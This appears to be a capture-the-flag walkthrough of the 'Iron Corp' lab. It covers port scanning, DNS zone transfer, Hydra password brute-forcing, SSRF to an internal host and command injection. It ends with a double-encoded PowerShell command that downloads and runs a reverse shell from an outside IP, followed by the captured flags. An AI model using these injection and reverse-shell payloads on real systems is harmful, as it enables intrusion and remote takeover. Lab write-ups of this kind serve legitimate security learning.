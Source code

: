 > Iron Corp

# Nmap

nmap -sC -sV -A -Pn -p53,135,8080,3389,11025,49667,49670 -vv -oN nmap/initial ironcorp.me

```bash
53/tcp    open  domain        syn-ack Simple DNS Plus
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
3389/tcp  open  ms-wbt-server syn-ack Microsoft Terminal Services
8080/tcp  open  http          syn-ack Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Dashtreme Admin - Free Dashboard for Bootstrap 4 by Codervent
11025/tcp open  http          syn-ack Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.4.4)
| http-methods: 
|   Supported Methods: HEAD GET POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.4.4
|_http-title: Coming Soon - Start Bootstrap Theme
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

The first one that caught my eye was port 8080 and port 11025. Nothing interesting in 8080. We got some saved creds. I tried the creds for RDP but failed!

Mail ID: mark@example.com
Creds: `jhonsanmark`:`11111122333`

In port 11025, nothing here too! So I moved onto DNS. I used Hacktricks as a reference and pentested DNS. And as given in the material I was trying for zone transfer and came across this.

```bash
dig axfr @10.10.71.28 ironcorp.me

; <<>> DiG 9.16.15-Debian <<>> axfr @10.10.71.28 ironcorp.me
; (1 server found)
;; global options: +cmd
ironcorp.me.		3600	IN	SOA	win-8vmbkf3g815. hostmaster. 3 900 600 86400 3600
ironcorp.me.		3600	IN	NS	win-8vmbkf3g815.
admin.ironcorp.me.	3600	IN	A	127.0.0.1
internal.ironcorp.me.	3600	IN	A	127.0.0.1
ironcorp.me.		3600	IN	SOA	win-8vmbkf3g815. hostmaster. 3 900 600 86400 3600
;; Query time: 192 msec
;; SERVER: 10.10.71.28#53(10.10.71.28)
;; WHEN: Thu Jul 01 06:20:21 EDT 2021
;; XFR size: 5 records (messages 1, bytes 238)
```

We got 2 subdomains. Ok let's see if we can access them. Nope! What?? So looks like they are only for internal services. So I tried to access `http://admin.ironcrop.me:11025` and we are prompted with web-authorization. Let's try to crack this! I guessed the username as admin.

# Hydra

hydra -l admin -P /usr/share/wordlists/SecLists/Passwords/Common-Credentials/best1050.txt -s 11025 -f admin.ironcorp.me http-get

```bash
[11025][http-get] host: admin.ironcorp.me   login: admin   password: password123
```

Ok now we are in! And looks like this is an `Ulimate Search Bar`. Ok I tried some text and it is reflected in the URL.At this point I though of LFI but I can't do it how about local files or URL's like localhost. Then I remembered `internal.ironcorp.me:11025` was forbidden. So I tried to access it!

`http://admin.ironcorp.me:11025/?r=http%3A%2F%2Finternal.ironcorp.me%3A11025%2F#`. The file is still restricted but looking at the source code we can find `<b>You can find your name <a href=http://internal.ironcorp.me:11025/name.php?name=>here</a>`. OK! Now we can use this name.php and name parameter to display our name.

# Payload URL

`http://internal.ironcorp.me:11025/name.php?name=` -> `Equinox`
`http://internal.ironcorp.me:11025/name.php?name=n00bmast3r` 

```
<b>My name is: </b><pre>
	Equinoxn00bmast3r
```

OOh! Cool now let's see if we can inject code. `http://internal.ironcorp.me:11025/name.php?name=n00bmast3r|whoami`
and Yess! We have our output `nt authority\system`. Let's try to upload a nishang Invoke-PowershellTCP.ps1 shell.
I modified the file with last one line for the reverse call to my system.

`Invoke-PowerShellTcp -Reverse -IPAddress 10.9.12.130 -Port 1338`

powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.9.12.130:8000/Invoke-PowerShellTcp.ps1')

It didn't accept spaces? So how about URL encoding didn't work too! Looking at other writeups I double encoded the payload.

http://internal.ironcorp.me:11025/name.php?name=n00bmast3r|%25%37%30%25%36%66%25%37%37%25%36%35%25%37%32%25%37%33%25%36%38%25%36%35%25%36%63%25%36%63%25%32%65%25%36%35%25%37%38%25%36%35%25%32%30%25%32%64%25%36%33%25%32%30%25%36%39%25%36%35%25%37%38%25%32%38%25%36%65%25%36%35%25%37%37%25%32%64%25%36%66%25%36%32%25%36%61%25%36%35%25%36%33%25%37%34%25%32%30%25%36%65%25%36%35%25%37%34%25%32%65%25%37%37%25%36%35%25%36%32%25%36%33%25%36%63%25%36%39%25%36%35%25%36%65%25%37%34%25%32%39%25%32%65%25%36%34%25%36%66%25%37%37%25%36%65%25%36%63%25%36%66%25%36%31%25%36%34%25%37%33%25%37%34%25%37%32%25%36%39%25%36%65%25%36%37%25%32%38%25%32%37%25%36%38%25%37%34%25%37%34%25%37%30%25%33%61%25%32%66%25%32%66%25%33%31%25%33%30%25%32%65%25%33%39%25%32%65%25%33%31%25%33%32%25%32%65%25%33%31%25%33%33%25%33%30%25%33%61%25%33%38%25%33%30%25%33%30%25%33%30%25%32%66%25%34%39%25%36%65%25%37%36%25%36%66%25%36%62%25%36%35%25%32%64%25%35%30%25%36%66%25%37%37%25%36%35%25%37%32%25%35%33%25%36%38%25%36%35%25%36%63%25%36%63%25%35%34%25%36%33%25%37%30%25%32%65%25%37%30%25%37%33%25%33%31%25%32%37%25%32%39%25%30%39

And now I got a shell! Wow!

# user.txt

```
thm{09b408056a13fc222f33e6e4cf599f8c}
```

Even we are nt authority\system we can't view C:\SuperAdmin's contents. Probably the file name is `root.txt`.

type C:\Users\SuperAdmin\Desktop\root.txt

```
thm{a1f936a086b367761cc4e7dd6cd2e2bd}
```

# Reference

https://sckull.github.io/posts/ironcorp/
https://gitlab.com/ctf-and-walkthrough-writeups/tryhackme/-/blob/master/Iron%20Corp/README.md
